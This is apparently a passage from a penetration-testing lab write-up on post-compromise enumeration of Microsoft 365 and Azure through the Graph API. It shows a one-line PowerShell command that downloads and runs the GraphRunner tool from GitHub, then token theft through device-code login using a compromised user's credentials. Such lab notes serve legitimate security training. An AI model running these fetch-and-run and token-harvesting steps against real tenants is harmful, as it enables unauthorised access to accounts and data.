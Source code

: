    Knowing that the user account has an assigned Microsoft 365 license and access to Graph API and API Management services, we can enumerate further.

   ```powershell
   IEX (iwr 'https://raw.githubusercontent.com/dafthack/GraphRunner/main/GraphRunner.ps1')
   ```

   According to Black Hills, GraphRunner is a post-exploitation tool used to gather information about the Graph API. [Video](https://www.youtube.com/watch?v=o29jzC3deS0).

   > We built a post-compromise toolset called [GraphRunner](https://github.com/dafthack/GraphRunner/) for interacting with the Microsoft Graph API.

GraphRunner tool information can be found here: [../../../0.1. Learn Cloud/0.1.2 Azure/0.1.2.1. Azure General/Microsoft Graph#4.2 Complete Workflow of System Information Gaining|../Azure Services/Microsoft Graph#4.2 Complete Workflow of System Information Gaining](<../../../0.1. Learn Cloud/0.1.2 Azure/0.1.2.1. Azure General/Microsoft Graph.md#42-complete-workflow-of-system-information-gainingazure-servicesmicrosoft-graph42-complete-workflow-of-system-information-gaining>).

## 2.1 Start Authentication with GraphRunner

After logging in, the first step is to authenticate with the system. [../../../0.1. Learn Cloud/0.1.2 Azure/0.1.2.1. Azure General/Microsoft Graph#4.2.1 **Authentication Flow**|../Azure Services/Microsoft Graph#4.2.1 **Authentication Flow**](<../../../0.1. Learn Cloud/0.1.2 Azure/0.1.2.1. Azure General/Microsoft Graph.md#421-authentication-flowazure-servicesmicrosoft-graph421-authentication-flow>).

The `Get-GraphTokens` command was really simple. All I had to do was log in with the given code and enter Clara's credentials. Once the authentication process was complete, the token was saved in the `$token` variable.

```powershell
PS> Get-GraphTokens                                                                                                                                        
[*] It looks like you already have tokens set in your $tokens variable. Are you sure you want to authenticate again?                                              
y                                                                             
[*] Initiating device code login...                                           
To sign in, use a web browser to open the page https://microsoft.com/devicelogin and enter the code AGVQ7MD48 to authenticate. 
```

However, `Get-AzureAppTokens` requires a bit more information.

```powershell
PS> Get-AzureAppTokens                                                      

cmdlet Get-AzureAppTokens at command pipeline position 1
Supply values for the following parameters:                                   
Scope:                                 
ClientID:                                                                     
ClientSecret:                                                                 
RedirectUri:                           
AuthCode:                                                                     
Get-AzureAppTokens: Cannot bind argument to parameter 'Scope' because it is an empty string.
```
